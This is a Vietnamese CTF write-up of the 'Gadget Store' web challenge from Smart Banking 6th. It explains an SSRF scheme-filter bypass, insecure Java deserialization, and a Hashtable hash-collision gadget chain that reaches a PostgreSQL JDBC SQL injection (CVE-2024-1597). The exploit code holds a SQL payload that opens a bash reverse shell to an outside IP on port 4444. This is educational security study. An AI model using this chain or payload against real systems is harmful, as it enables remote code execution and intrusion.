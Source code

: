 +++
date = '2025-09-26T22:00:00+07:00'
draft = false
title = 'Phân tích nhanh gadget chain trong challenge Gadget Store'
+++

# Gadget Store

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

# Tóm tắt

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Soluction

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java=
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java=
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.
![Điều kiện khai thác CVE-2024-1597](images/image.png)
Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java=
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```=
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit
```java=
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.
![image](images/image-1.png)

Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.
![alt text](images/image-2.png)
Method `hashCode()` của entry (`LinkedHashMap$Entry`)
![alt text](images/image-3.png)

Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng  "xa tận chân trời và gần ngay trước mắt".